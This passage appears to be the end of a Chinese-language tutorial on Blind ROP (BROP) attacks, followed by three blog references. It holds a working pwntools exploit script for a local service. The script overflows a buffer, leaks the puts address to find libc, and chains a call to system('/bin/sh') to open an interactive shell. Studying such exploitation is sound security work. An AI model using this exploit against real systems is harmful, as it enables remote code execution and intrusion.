sh = remote('127.0.0.1', 9999)
sh.recvuntil('password?\n')
payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
    stop_gadget)
sh.sendline(payload)
data = sh.recvuntil('\nWelCome', drop=True)
puts_addr = u64(data.ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(stop_gadget)
sh.sendline(payload)
sh.interactive()
```

### 参考文献

- http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/
- http://bobao.360.cn/learning/detail/3694.html
- http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/
